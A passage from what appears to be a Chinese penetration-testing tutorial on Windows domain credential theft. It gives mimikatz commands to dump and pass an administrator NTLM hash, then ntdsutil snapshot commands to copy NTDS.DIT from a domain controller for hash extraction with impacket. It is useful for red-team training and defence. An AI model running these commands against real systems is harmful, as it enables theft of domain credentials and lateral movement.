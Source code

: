 首先登录目标机器，以管理员身份运行 mimikatz，并输入以下命令获取 administrator 账户的 ntlm hash：

```
Mimikatz.exe “privilege::debug” “sekurlsa::logonpasswords”
```

![](https://image.3001.net/images/20200304/15833020121.png!small)

在攻击机器上利用 mimikatz 将获取的 hash 注入到内存中，成功后用 dir 命令可以成功列出目录文件：

```
sekurlsa::pth /domain:. /user:Administrator /ntlm: 70be8675cd511daa9be4b8f49e829327
```

![](https://image.3001.net/images/20200304/15833020341597.png!small)

注入成功后，可以使用 psexec、wmic、wmiexec 等实现远程执行命令。

### 3.4 导出域成员 Hash

域账户的用户名和 hash 密码以域数据库的形式存放在域控制器的 %SystemRoot%\ntds\NTDS.DIT 文件中。

![](https://image.3001.net/images/20200304/15833020426925.png!small)

ntdsutil.exe 是域控制器自带的域数据库管理工具，因此我们可以通过域数据库，提取出域中所有的域用户信息，在域控上依次执行如下命令，导出域数据库。

创建快照：

```
ntdsutil snapshot "activate instance ntds" create quit quit
```

![](https://image.3001.net/images/20200304/158330205415.png!small)

加载快照：

```
ntdsutil snapshot "mount {72ba82f0-5805-4365-a73c-0ccd01f5ed0d}" quit quit
```

![](https://image.3001.net/images/20200304/15833020647870.png!small)

Copy 文件副本：

```
copy C:\$SNAP_201911211122_VOLUMEC$\windows\NTDS\ntds.dit c:\ntds.dit
```

![](https://image.3001.net/images/20200304/15833020748012.png!small)

将 ntds.dit 文件拷贝到本地利用 impacket 脚本 dump 出 Hash：

![](https://image.3001.net/images/20200304/15833020816765.png!small)

最后记得卸载删除快照：

```
ntdsutil snapshot "unmount {72ba82f0-5805-4365-a73c-0ccd01f5ed0d}" quit quit    ntdsutil snapshot "delete  {72ba82f0-5805-4365-a73c-0ccd01f5ed0d}" quit quit
```
